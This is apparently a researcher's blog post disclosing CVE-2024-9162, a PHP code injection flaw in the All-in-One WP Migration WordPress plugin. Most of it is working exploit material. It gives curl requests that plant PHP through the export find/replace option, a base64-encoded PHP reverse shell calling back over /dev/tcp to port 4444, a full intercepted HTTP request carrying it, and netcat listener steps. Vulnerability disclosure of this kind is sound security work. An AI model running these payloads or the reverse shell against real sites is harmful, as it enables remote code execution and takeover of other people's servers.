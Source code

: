 +++
title = 'All-in-One WP Migration and Backup <= 7.86 - Authenticated (Administrator+) Arbitrary PHP Code Injection'
date = 2024-10-27T05:18:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "All-in-One WP Migration"]
description = "CVE-2024-9162: WordPress All-in-One WP Migration plugin RCE vulnerability via PHP code injection. Includes exploit details."
+++

Around the time Def Con was happening this year I was sitting at home feeling left out. That made me feel hacky, but I don't get the same joy from CTFs at the moment that I used to. So, I decided to start hunting for CVEs. That lead to finding [CVE-2024-9162](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/all-in-one-wp-migration/all-in-one-wp-migration-and-backup-786-authenticated-administrator-arbitrary-php-code-injection), which was just released today, along with the idea for a larger project that has resulted in a few more vulnerabilities yet to be disclosed. 

### CVE-2024-9162

The [All-in-One WP Migration plugin for WordPress](https://wordpress.org/plugins/all-in-one-wp-migration/) is vulnerable to arbitrary PHP Code Injection due to missing file type validation during the export in all versions up to, and including, 7.86. This makes it possible for authenticated attackers, with Administrator-level access and above, to create an export file with the .php extension on the affected site's server, adding an arbitrary PHP code to it, which may make remote code execution possible.

### TL;DR Exploits
* [CVE-2024-9162.sh](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.sh)
* [CVE-2024-9162.py](https://github.com/d0n601/CVE-2024-9162/blob/main/CVE-2024-9162.py)

### Details
The `ai1wm_secret_key` is a 12 character alphanumeric string created when the plugin is initialized. The key is **never rotated**, **does not expire**, and is **stored plain text** in the `wp_options` table.

```sql
mysql> SELECT option_name,option_value FROM wp_options WHERE option_name='ai1wm_secret_key';
+------------------+--------------+
| option_name      | option_value |
+------------------+--------------+
| ai1wm_secret_key | PwrqqK3UHQJo |
+------------------+--------------+
1 row in set (0.00 sec)
```

### Basic Proof of Concept:
This will create a php file containing a call to `phpinfo();`, which can be replaced with a better payload as seen in the manual reproduction section. Notice there is no authorization required beyond the secret key parameter. 
```bash
VICTIM_URL=https://wordpress.hacker
XFILE_NAME=lolz.php
XDIRECTORY_NAME=testauto
SECRET_KEY=PwrqqK3UHQJo

PRIORITY_INT=30
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=50
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"

PRIORITY_INT=60
curl --path-as-is -i -s -k -X $'POST' \
    --data-binary $"\x0d\x0a\x0d\x0a\x0d\x0aaction=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+phpinfo()%3B+%3F%3E&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=$XDIRECTORY_NAME&file=1&secret_key=$SECRET_KEY&priority=$PRIORITY_INT&archive=$XFILE_NAME" \
    $"$VICTIM_URL/wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1"
```
![Screenshot from 2024-08-13 15-36-42](/posts/images/CVE-2024-9162/1.png)


### Manually To Reproduce:
It should be noted that the `php` file created via these steps will first appear in `wp-content/plugins/all-in-one-wp-migration/storage/EXPLOITDIR/EXPLOITFILE.php` before being deleted by the script and moved to `wp-content/ai1wm-backups/reverse_shell.php`. 

* Log in, Click all in one WP migration export to access the "Export Site" [page](https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export).
  * ![Screenshot from 2024-08-12 15-40-48](/posts/images/CVE-2024-9162/2.png)

*  In the **Find * Replace with** `<another-text>` **in the database**.
  * Input `*` into the *Find* box.
  * Input your crafted php payload into  into the *Replae With* box (`phpinfo();`, web shell, etc).
    * Reverse Shell Example: 
    ```php
    <?php eval( base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs=')); ?>
    ```
    * This will decode to 
    ```php
    exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.100.86/4444 0>&1' ");
    ```
  *  ![Screenshot from 2024-08-12 15-38-01](/posts/images/CVE-2024-9162/3.png)
* Setup Burp or similar tool and begin to proxy the traffic, then click the green "Export To -> File" option.
  *  ![Screenshot from 2024-08-12 15-42-30](/posts/images/CVE-2024-9162/4.png)
  *  ![Screenshot from 2024-08-12 15-39-38](/posts/images/CVE-2024-9162/5.png)
* Forward the first request: `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/1.1`, without manipulation.
* Forward: `GET /wp-admin/admin-ajax.php?action=ai1wm_status&ai1wm_import=1&secret_key=OYXj1AIdQUnc&_=1723495770325 HTTP/2`.
* Intercepting the request to `POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2`
   * Modify the `archive` parameter to whatever name you like, and the `.php` extension, and then forward the request.
   *  ```
        POST /wp-admin/admin-ajax.php?action=ai1wm_export&ai1wm_import=1 HTTP/2
        Host: wordpress.hacker
        Cookie: wordpress_sec_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7Cc65dd152f0c184235df35d5dfa28c50624b9f9a2fb01efb5077b150df76d286f; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; wordpress_logged_in_1e8abd3ff1d2f462f071b6ee87f18dce=admin%7C1723667674%7Czq81SUmQ7zq0jft2M2D19aFUOZDjhqND0rKqJp0XIrb%7C5c992aef75e3896a0909b9d480ae9e6505d89428c6975a490c30ce5b791c6bfe; wp-settings-time-1=1723500701
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
        Accept: application/json, text/javascript, */*; q=0.01
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Referer: https://wordpress.hacker/wp-admin/admin.php?page=ai1wm_export
        Content-Type: application/x-www-form-urlencoded; charset=UTF-8
        X-Requested-With: XMLHttpRequest
        Content-Length: 883
        Origin: https://wordpress.hacker
        Dnt: 1
        Sec-Gpc: 1
        Sec-Fetch-Dest: empty
        Sec-Fetch-Mode: cors
        Sec-Fetch-Site: same-origin
        Te: trailers
              action=ai1wm_export&ai1wm_import=1&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=*&options%5Breplace%5D%5Bold_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Breplace%5D%5Bnew_value%5D%5B%5D=%3C%3Fphp+eval(+base64_decode('ZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTkyLjE2OC4xMDAuODYvNDQ0NCAwPiYxJyAiKTs%3D'))%3B+%3F%3E&options%5Breplace%5D%5Bnew_value%5D%5B%5D=&options%5Bencrypt_password%5D=&options%5Bencrypt_password_confirmation%5D=&options%5Bno_spam_comments%5D=on&options%5Bno_post_revisions%5D=on&options%5Bno_media%5D=on&options%5Bno_themes%5D=on&options%5Bno_muplugins%5D=on&options%5Bno_plugins%5D=on&options%5Bno_database%5D=on&options%5Bno_email_replace%5D=on&ai1wm_manual_export=1&storage=1j5v4ss1ls45&file=1&secret_key=OYXj1AIdQUnc&priority=10&archive=reverse_shell.php
       ```
    * ![Screenshot from 2024-08-12](/posts/images/CVE-2024-9162/fivee.png)
    * Turn off interception and let all other requests flow through until the job is completed and a download button is presented on the screen.
      * ![Screenshot from 2024-08-12 15-30-06](/posts/images/CVE-2024-9162/6.png)
    * Notice that the link to the downoad is a link to a php file containing the payload `https://wordpress.hacker/wp-content/ai1wm-backups/reverse_shell.php`.
    * Fire up a netcat listener on an attacking machine to catch the reverse shell `nc -lnvp 4444`.
    * Click the download button and catch the reverse shell.
      *   ![Screenshot from 2024-08-12 15-34-27](/posts/images/CVE-2024-9162/7.png)



